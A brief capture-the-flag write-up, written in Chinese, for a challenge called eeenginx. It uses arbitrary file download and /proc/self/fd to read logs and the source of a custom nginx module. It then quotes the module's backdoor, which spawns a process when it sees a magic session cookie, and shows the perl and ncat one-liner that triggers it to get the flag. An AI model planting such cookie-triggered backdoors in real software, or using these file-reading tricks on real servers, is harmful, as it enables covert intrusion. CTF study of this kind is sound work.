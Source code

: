 # eeenginx 

就是一個任意下載的題目

各種常見的招 `/proc/self/fd/*`

可以讀到 error log 等資訊

其中可以發現 access log 在 `/work/logs/access.log` 

裡頭可以看到應該是其他隊讀檔紀錄:

- /opt/module/ngx_http_eeenginx.c
- /opt/module/eeenginx.h
- /opt/module/eeenginx.c

比較關鍵的片段：

```
int exec_shell(int fd)
{
    int pid;
    pid = fork();
    if(pid>0){
        close(fd);
        exit(0);
    }

    dup2(fd,0);
    dup2(fd,1);
    dup2(fd,2);
    execve("/readflag", NULL, NULL);
    return 0;
}
```

```
     if(r->headers_in.cookies.nelts==1){
         if(strncmp((char *)cookies[0]->value.data,"session=eeenginx97826431357894989;", sizeof("session=eeenginx97826431357894989"))==0){
             // msend(cmd_fd, "eeenginx1", sizeof("eeenginx1"));
             exec_shell(cmd_fd);
         }
     }
```

照著送就能拿到flag:

```
$ perl -e 'print "GET / HTTP/1.1\r\nHost: 118.195.199.18:12345\r\nCookie:session=eeenginx97826431357894989;\r\n\r\n"' | ncat 118.195.199.18 12345
flag{thanks_to_tm3yshell7}
```

